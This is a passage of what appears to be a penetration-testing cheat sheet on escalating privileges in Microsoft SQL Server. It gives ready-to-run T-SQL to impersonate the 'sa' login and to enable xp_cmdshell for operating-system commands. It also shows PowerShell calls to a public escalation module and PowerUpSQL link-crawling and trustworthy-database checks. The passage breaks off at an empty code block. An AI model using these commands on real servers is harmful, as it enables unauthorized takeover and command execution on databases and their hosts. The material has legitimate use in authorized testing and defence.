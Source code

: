 ````
#### Impersonate a user 
- Might be possible to impersonate user a and then user b and then sa!
```
-- Verify you are still running as the normal user login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Impersonate the sa login
EXECUTE AS LOGIN = 'sa'
-- Verify you are now running as the sa login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Enable and run xp_cmdshell
```
-- Enable show options
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
GO
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
GO
-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```
 
#### Impersonate exploit script
- https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1
```
Import-Module .\Invoke-SqlServer-Escalate-ExecuteAs.psm1
Invoke-SqlServer-Escalate-ExecuteAs -SqlServerInstance <INSTANCE> -SqlUser <USER> -SqlPass <PASSWORD>
```
 
#### Check for impersonation through link
```
Get-SQLServerLinkCrawl -Instance <INSTANCE> -Verbose -Query 'SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = ''IMPERSONATE'''
```
 
### Create Stored procedure as DB_Owner
- Prerequisites:
 - db_owner role
 - owner of the database high privileged user
 - Database set to thrustworthy (To enable xp_cmdshell)

#### Check the db_owner role PowerUpSQL
```
Invoke-SQLAuditPrivTrustworthy -Instance <SQL INSTANCE> -Verbose -Debug
```
 
#### Check the db_owner role
```
USE <DB>;
select rp.name as database_role, mp.name as database_user
from sys.database_role_members drm
join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)
```
 
#### Check the owner of the database
```
````